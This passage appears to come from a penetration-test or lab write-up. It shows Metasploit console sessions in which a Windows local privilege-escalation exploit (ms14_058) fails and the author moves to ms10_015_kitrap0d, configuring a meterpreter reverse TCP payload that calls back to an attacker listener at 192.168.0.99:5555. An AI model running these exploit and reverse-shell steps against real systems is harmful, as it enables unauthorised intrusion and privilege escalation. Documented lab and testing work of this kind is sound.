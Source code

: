     [*] Started reverse TCP handler on 192.168.0.99:5555 
    [-] Exploit aborted due to failure: not-vulnerable: Exploit not available on this system
    [*] Exploit completed, but no session was created.


Failed to work @ 14:11. Time to pivot, lets take MS10-015 for a spin.


    msf exploit(ms14_058_track_popup_menu) > use exploit/windows/local/ms10_015_kitrap0d 
    msf exploit(ms10_015_kitrap0d) > options
    
    Module options (exploit/windows/local/ms10_015_kitrap0d):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on.
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 2K SP4 - Windows 7 (x86)
    
    
    msf exploit(ms10_015_kitrap0d) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(ms10_015_kitrap0d) > options
    
    Module options (exploit/windows/local/ms10_015_kitrap0d):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST                      yes       The listen address
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 2K SP4 - Windows 7 (x86)
    
    
    msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.0.99
    LHOST => 192.168.0.99
    msf exploit(ms10_015_kitrap0d) > set LPORT 5555
    LPORT => 5555
    msf exploit(ms10_015_kitrap0d) > set SESSION 16
    SESSION => 16
    msf exploit(ms10_015_kitrap0d) > run
    
    [-] Exploit failed: Msf::OptionValidateError The following options failed to validate: SESSION.
    [*] Exploit completed, but no session was created.
